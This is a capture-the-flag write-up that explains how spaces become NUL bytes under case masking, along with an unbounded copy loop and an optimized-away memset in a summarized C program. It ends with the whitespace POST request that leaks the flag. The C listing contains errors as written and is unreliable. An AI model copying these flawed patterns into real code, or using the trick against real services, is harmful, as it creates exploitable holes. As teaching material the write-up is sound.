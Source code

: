# WriteUP for the "GiveMeThaPassword" Challenge

## Recon
At first we receive a link to the challenge. 

Inspect it and we receive a blank page. Umm smells like we are going to use burp.

Use Burp proxy to inspect the GET request.

When we try to make the GET we receive a 400 Bad Request.

Since we don't have any more info, let's change to POST Request.

We do the POST and receive this:

```tcp
HTTP/1.1 200 OK
Content-Length: 41
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:46:26 GMT
Connection: close

Passwords must be at least 8 characters! 
```

Nice! :)

Sending a password with 8 characters:

```tcp
HTTP/1.1 200 OK
Content-Length: 64
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:48:49 GMT
Connection: close

Looks like you forgot your password! Your password is: AAAAAAAA
```

OK, now we know how the request are working, let's check the code.

We can summarize the code in this lines:

```c
void ctf(char *password, int print) {
	char buffer[256];
	int pwdlen = strlen(password);

	if (strlen(password) < 8) {
		printf("Passwords must be at least 8 characters!\n");
		return;
	}
	// passwords are case-insensitive
	//uppercase
	while (password) {
		//WARNING 1!
		*password &= ~0x20; //*password = *password & ~0x20; to uppercase
		password++;
	}
	//cpy
	while (*password) {
    //WARNING 2!
		*buffer = *password;
		buffer++;
		password++;
	}
	//email
	if (print){
		printf("Looks like you forgot your password! Your password is: ");
		for (int i = 0; i < n; i++) {
			printf("%c", password[i]);
		}
		printf("\n");
	}
	// Erase sensitive information!!
  	//WARNING 3!
	memset(buffer, ' ', 256);
}

int main(int argc, char *argv[]) {
	while (--argc) {
		char buffer[256] = {0};
		strcpy(buffer, argv[argc]);
		ctf(&buffer[0], argc == 1);
	}

	return 0;
}
```
As you can see in the code, I added 3 warnings, let's check it to see how we can retrive the password.

## Warning 1
```c
*password &= ~0x20;
```
This part makes the AND operation in the sixth bit so:

If we have an 'a' and we want to change it to an 'A' we do this:

```
a 	=	0110 0001
~0x20	=	1101 1111
    	 	---------
A 	=	0100 0001    
```
This type of bit manipulation is also pretty dangerous, mostly because we can send NULL 
signals using a SPACE character:

```
' '	=	0010 0000
~0x20	=	1101 1111
    	 	---------
NULL	=	0000 0000    
```
Note for the future: "Send whitespaces, maybe i'll find something" ( ͡° ͜ʖ ͡°)

## Warning 2
```c
while (*password) {
*buffer = *password;
		buffer++;
		password++;
	}
```
This is another example of how NOT to copy a variable in C. With this type of code I can write outside
the buffer (buffer overflow) and access other parts of the memory or even manipulate
the flow of the program; sending NULL signal for example, because the while will never
be true.

**This part allow us to not overwrite the last password typed, maybe from of another user.**

## Warning 3
```c
memset(buffer, ' ', 256);
```
This function is being optimized by the compiler, and it's not running. ¯\_(ツ)_/¯


## Exploit
With everything that we learned before we can clearly send this NULL signals and watch the
behaviour of the app.

```tcp
POST /password/remind HTTP/1.1
Host: xxx.es
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

                                                      
```   
Response:                                                
```tcp
HTTP/1.1 200 OK
Content-Length: 110
Content-Type: application/octet-stream
Date: Sun, 27 Dec 2020 19:51:19 GMT
Connection: close

Looks like you forgot your password! Your password is: FLAG[INSOVIETRUSSIAFLAGCAPTURESU]
``` 

That's all folks!
